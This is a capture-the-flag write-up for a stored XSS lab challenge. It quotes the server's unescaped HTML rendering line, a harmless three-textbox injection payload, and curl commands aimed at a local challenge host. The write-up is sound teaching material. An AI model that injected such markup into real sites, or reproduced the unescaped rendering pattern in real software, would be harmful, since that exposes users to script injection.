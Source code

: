 # 📘 Stored XSS Challenge Writeup

## 🧩 Challenge Description

This challenge explores **Stored XSS (Cross-Site Scripting)**. You're given access to a web server at `/challenge/server` where users can post messages. These messages are stored in a database and later displayed to all visitors. 

There's also a simulated victim at `/challenge/victim` that visits the site and looks for **3 `<input type="text">` elements**. If found, the victim reveals the flag.

> 🎯 Goal: Inject a post that results in three `<input type="text">` elements being rendered in the victim's browser.

---

## 🧠 Code Analysis

By reviewing the server code, we learned:

- It uses `sqlite3` to store posts in a temporary file.
- The `GET /` handler renders each post using:
  ```python
  page += "<hr>" + post["content"] + "\n"
  ```
  This means the **user-submitted content is directly inserted into the HTML** without escaping or sanitization.
- Therefore, **any raw HTML we post will be interpreted and rendered by the browser**, making the site vulnerable to stored XSS.

---

## ✅ Exploitation

To exploit this, we submit a post containing 3 textboxes in HTML:

```html
<input type="text"><input type="text"><input type="text">
```

We submit it via the form or using `curl`:

```bash
curl -X POST -d 'content=<input type="text"><input type="text"><input type="text">' http://challenge.localhost:80/
```

Then, we trigger the victim:

```bash
curl "http://challenge.localhost:80/challenge/victim?url=http://challenge.localhost:80/"
```

If our HTML is successfully injected and rendered, the victim will see 3 textboxes and give us the flag.

---

## 🔎 Debugging Tips

- If unsure whether your payload is rendered, visit the site manually (GUI browser or curl).
- Check the page source to see if your HTML is interpreted or appears as plain text.
- Use variations of the payload if needed (e.g., add `<br>` or wrap in `<div>`).

---

## 🏁 Conclusion

This challenge demonstrates the core concept of **Stored XSS**, where **unescaped user input** is inserted directly into the HTML page served to users. Because the content wasn’t sanitized, we were able to inject and render HTML directly in the browser.

Always sanitize and encode user input before rendering to prevent these attacks!